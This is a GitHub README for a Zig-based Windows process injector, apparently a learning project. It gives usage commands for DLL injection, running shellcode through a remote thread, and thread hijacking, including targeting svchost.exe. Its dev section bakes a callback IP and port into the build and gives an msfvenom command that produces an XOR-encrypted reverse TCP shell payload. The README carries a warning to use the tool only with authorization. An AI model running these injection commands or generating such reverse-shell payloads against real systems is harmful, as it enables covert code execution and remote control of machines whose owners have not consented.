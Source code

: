 # ZInjector

Simple Process injector for Windows (for now) written in Zig.


> [!NOTE]
> This is my first project in Zig, so the code is pretty rough. My goal is to learn Zig and perform process injection. I haven't decided what to implement yet, but the first steps are to learn Zig and carry out a simple process injection attack on Windows.

## Usage

### General syntax

```sh
zinjector <subcommand> [OPTIONS]
```

Most common:

* `zinjector --help` — general help
* `zinjector <subcommand> --help` — help for a subcommand

---

### Subcommands

#### `dll`

Performs a DLL injection into the target process.

Syntax:

```sh
zinjector dll --dll_path <path> (--pid <PID> | --process_name <name>)
```

Options:

* `--dll_path, -d` *(required)* — path to the DLL (e.g. `C:\tools\payload.dll`)
* `--pid, -p` — numeric PID of the target process
* `--process_name, -n` — executable name of the target process (e.g. `notepad.exe`)

Examples:

```sh
zinjector dll -d "C:\payloads\hook.dll" -p 1234
zinjector dll -d ./payload.dll -n notepad.exe
```

Notes:

* Provide **either** `--pid` **or** `--process_name`. If both are provided, behavior depends on implementation (prefer PID for precision).
* Ensure the DLL architecture (x86/x64) matches the target process architecture.
* Administrative privileges may be required.

---

#### `thread`

Creates a remote thread in the target process and runs an in-memory payload (shellcode).

Syntax:

```sh
zinjector thread (--pid <PID> | --process_name <name>)
```

Options:

* `--pid, -p` — numeric PID of the target process
* `--process_name, -n` — executable name of the target process

Examples:

```sh
zinjector thread -p 4321
zinjector thread -n Notepad.exe
```

Notes:

* The payload (shellcode) must be provided or obtained according to the implementation (file, stdin, embedded).
* Verify architecture and calling convention compatibility.
* Elevated privileges may be necessary.

---

#### `hijacking`

Performs thread hijacking: suspends a target thread, modifies its context, and resumes it to execute the payload.

Syntax:

```sh
zinjector hijacking --pid <PID>
```

Options:

* `--pid, -p` — numeric PID of the target process (recommended)

Examples:

```sh
zinjector hijacking -p 5555
```

---

### Full examples

```sh
# Inject DLL by PID
zinjector dll -d "C:\tools\inject.dll" -p 1010

# Run shellcode via remote thread by process name
zinjector thread -n svchost.exe

# Hijack thread in process
zinjector hijacking -p 2020
```

---

## Some cool resource for learning Zig and Process Injection

- [Zig Guide](https://zig.guide/)
- [Zig Standard Library](https://ziglang.org/documentation/master/std/)
- [LearnXInYMinutes](https://learnxinyminutes.com/zig/)
- [Process Injection Techniques](https://www.ired.team/offensive-security/code-injection-process-injection)
- [MITRE](https://attack.mitre.org/techniques/T1055/)
- [DLL Injector C++](https://github.com/leetCipher/Malware.development/tree/main/dll-injector)
- [Cool cheasheet (zig_in_depth)](https://codeberg.org/dude_the_builder/zig_in_depth)
- https://github.com/marlersoft/zigwin32/tree/main
- https://raw.githubusercontent.com/marlersoft/zigwin32/refs/heads/main/win32/everything.zig
- https://black-hat-zig.cx330.tw/

### Legal and safety warning

These techniques modify other processes and can be used maliciously. Use only on machines and processes for which you have explicit authorization. The author assumes no responsibility for misuse.

## Dev

- Zig Version: 0.15.2
- OS: Arch Linux
- IDE: Zed
- LSP: Zls

Deps for cross-compiler on linux:  mingw-w64-headers,mingw-w64-gcc

## Todo:

- [x] PoC
- [x] Resolution of relative path to absolute path
- [x] Search process by name
- [x] Implement arguments parsing
- [x] Thread Remote creation with shellcode injection
- [ ] SetWindowHookEx Code Injection
- [ ] ...

## Command for dev/testing:

- Compile: `zig build -Dtarget=x86_64-windows -Dport=8080 -Dipv4=172.19.192.194 -Doptimize=ReleaseSmall --summary all`
- Test: `zig build test --summary all`
- Shellcode generator: `msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.118 LPORT=8080 -f zig --encrypt xor --encrypt-key a`
